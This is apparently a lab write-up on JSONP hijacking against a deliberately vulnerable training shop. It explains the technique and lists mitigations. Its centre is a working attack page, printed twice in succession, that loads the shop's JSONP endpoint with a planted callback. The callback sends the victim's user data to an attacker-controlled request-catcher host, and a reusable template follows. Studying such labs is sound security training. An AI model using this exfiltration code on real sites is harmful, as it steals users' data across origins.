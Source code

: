 # JSON Hijacking Attack with JSONP

## Challenge

This challenge is about JSON \(JSONP\) hijacking. By doing such an attack you should understand the theory.

## Answer

### Explain the security problem 

* **JSONP** = JavaScript Object Notation with **Padding**
* Technique used to circumvent the Same-Origin Policy when transferring data with AJAX across

  different domains

* Browsers do not enforce SOP on the HTML &lt;script&gt; tag
* Padding refers to characters around the JSON payload, e.g.
  * `callback({employees: [{“firstName”: “John”, “lastName”: “Doe”}, ...]})`



### Explain your attack. \(exploit, screenshot, hacking journal\) 

Step 1\) Use old cowbell shop, buy some bells

![](../../.gitbook/assets/image%20%28367%29.png)

Step 2\) Use Theia Web IDE and change the change\_me.html to the following:

{% code title="change\_me.html" %}
```markup
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
<html>
<head>
<script>
var target="https://41961063-5823-447b-86c0-42221f35dfe6.idocker.vuln.land/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="https://glocken.vm.vuln.land//12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>

```
{% endcode %}



Step 3\) Send attacker URL to the victim

![](../../.gitbook/assets/image%20%28384%29.png)

Step 4\) 

![](../../.gitbook/assets/image%20%28375%29.png)

Step 5\) 

```markup
<html>
<head>
<script>
var target="https://REQUEST_CATCHER_FQDN/drop?";


function invoke(obj) {
var ref = obj;
   var inner = function() {
      var response = "";

      for(var x in ref ) {
         response += ref[x] + ", ";
      }

      new Image().src=target + escape(response);    
   };
   setTimeout(inner, 100);
}

</script>
<script src="{VULNERABLE COWBELL SHOP}/12001/json_case0/json0/controller?action=getuser&func=invoke">
</script>
</head>
<body>
</body>
</html>
```

The attacker is defining the `invoke` method before `script src` an URL from the cowbell shop. The json data returned by the cowbell shop are jsonp - json with padding. This makes the hacker happy - as he can now exfiltrate the json data via his own `invoke` implementation.

### Explain mitigation \(remedy\)

* Use Anti XSRF-Tokens
* Begin the JSON-Response with an infinite loop:
* DO NOT USE JSONP!



## Lösung HL



* kein JSONP einsetzen!
* Use SameSite
* Use anti-XSRF on webserver. Only allow downloading JSON objects with valid anti-XSRF token.
* Insert invalid or problematic JavaScript at the start of the response \(e.g while\(1\);\).
* Only allow POST requests for JSON objects.

